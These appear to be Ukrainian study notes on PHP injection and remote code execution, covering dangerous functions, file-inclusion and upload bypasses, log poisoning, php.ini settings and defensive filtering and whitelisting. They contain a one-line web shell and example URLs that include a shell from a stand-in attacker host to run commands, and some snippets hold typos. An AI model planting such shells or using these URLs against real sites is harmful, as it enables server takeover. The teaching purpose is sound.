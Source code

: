 #PHP-injection

PHP-injection - ...

RCE - remote code execution - є максимальною загрозою классу А1 по OWASP (2013)

PHP-injection є можливою коли користувацькі дані приймаються як є і приймаються без перевірки

Основою до PHP-injection є те, що функції ПХП є потенційно небезпечними (деякі алгоритми мають здатність працювати по-іншому, якщо відправляти не валідовані дані)

До таких потенційно-небезпечних функцій відносяться:
- include / indlude.once - include включає і виконує файл або видає повідомлення E_WARNING (ящко не знайдений); include.once виконує файл лише раз
- require / require.once - require якщо не знаходить, то видає фатал_еррор
- eval - приймає строку і інтерпретує її як PHP-код

	<? 
	eval($_GET['code']);
	?>

або

	http://site.com/page.php?code=phpinfo();

- preg_replace - замінює підстроку по заданому регулярному виразу в строці (використовується для фільтрації небезпечних символів)
- passthrow / system - виконують зовнішню программу; passthrow - виводить raw-output;   system - виводить output

include використовується як підключення бібліотек або частин сторінки (динамічна заміна футера, хедера, контенту сторінки)

## WEB-SHELL

	shell.php

	<?php system($_GET['cmd']);?>

	http://site.com/page.php?cmd=shutdown%20-s

## Классифікація PHP-injection
Види:
1. Локальна PHP-injection - в якості підключенного кода через веб-шелл є код з того самого серверу
2. Глобальна PHP-injection - в якості підключенного кода через веб-шелл є код з іншого серверу

Наприклад:
	
	<?php
		if($_GET['id'])
			include($_GET('id'));
	?>

	http://site.com/main.php?id=1.php

	http://site.com/main.php?id=http://hacker.net/shell.php&cmd=dir

	http://site.com/main.php?id=http://hacker.net/shell.php&cmd=ls

[шлях до файлу] - локальна PHP-injection

1. uploadfiles - перевірка файлів при завантаженні на сайт. Якщо сайт може відображати зображення, то замість зображення можна завантажити файл веб-шеллу, замаскувавши його під зображення (шелл мав розширення .php, змінюємо на .gif і завантажуємо).

При завантаженні треба перевіряти файл на відповідність mine-types або зчитувати інформацію про файл або змінити файл (змінити розміри файлу).

Способи обходу, пов'язані з тим, що використовуються символи обмеження пхп коду. Можна взяти графічний файд і в кінці дописати "<? ?>"

2. Проблема т.з. "ядовитого нуля" - "%00" - відсікає кінець строки, особливо це стосується файлу з паролями 

	/etc/passwords.txt

3. Ін'єкція через логи Apache - ... кожен користувач може змінювати ці файли. Наприклад функція авторизації логується і 

	apache.logs.txt
	user 'admin' ; access denied ;

Можна в поле логіна ввести пхп код і цей код впишеться в лог файлу

## Чим тестувати

Є декілька інструментів для тестування на пхп-вразливості:
1. Acunetix - сканер
2. RATS - Remote Auditing Tools for Security
3. RPVS - Remote PHP Vulnerability Scanner

## Вразливості, пов'язані з файлом php.ini

В цьому файлі знаходиться декілька директив, які суттєво впливають на небезпеку додатка:
- Register_globals=on - суть полагає в тому, що всі параметри, які передані через запити гет і пост автоматично стають глобальними змінними. Ніщо не заважає потім перевірити змінну. Атака можлива, коли регістер_глобалс включена.
	1. url -> http://site.com/index.php?page=25
	2. Тоді існує $_GET['page']
	3. І існує змінна $page, яка є в массиві $GLOBALS['page']
- allow_url_include=on - дозволяє підключення файлу через url (глобальні ін'єкції)
- Fopen - (include, include.once, require, require.once)

## Способи захисту

###1. Фільтрація параметрів

приклад вразливого скрипта:

	<?php
		$page=$_GET['page'];
		include($page.'.php');
	?>

як захищатись:
1. перевірка змінної $page на недопустимі символи

	<?
		$module = $_GET['module'];
		if(strpbrk($module,'?/:')) die('blocked')
		include($module)
	?>

2. перевірка змінної $page - реалізація white-list

	<?
		if(isset($_GET['page']))
			switch($_GET['page']) {
				case 'news':
					require_once('news.php');
					break;
				default:
					require_once('index.php');
					break;
			}
		require_once('index.php');
	?>